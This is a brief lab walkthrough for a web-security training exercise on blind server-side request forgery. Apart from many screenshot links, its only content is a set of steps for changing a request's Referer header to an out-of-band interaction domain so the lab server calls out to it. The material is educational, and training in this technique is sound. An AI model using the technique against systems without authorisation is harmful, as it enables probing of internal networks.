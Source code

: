 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515215321.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515215356.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515215433.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515215517.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515215552.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212610.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220515212638.png)

### Blind SSRF with out-of-band detection
```bash

#### This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

#### To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server. 

Click on "View details"
Go to: HTTP history

GET /product?productId=2 HTTP/1.1

Send to repeater
Go to: Burp -> Burp Collaborator client -> Copy to clipboard
Change:

Referer: https://ac1a1f801f0cf41bc09ed40100220056.web-security-academy.net/

To

Referer: https://1bdsgc3rzpeu018hgzs4dl3xxo3er3.oastify.com/

Response:

HTTP/1.1 200 OK

Go to Burp Collaborator client
Click "Poll now"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516013314.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516013400.png)

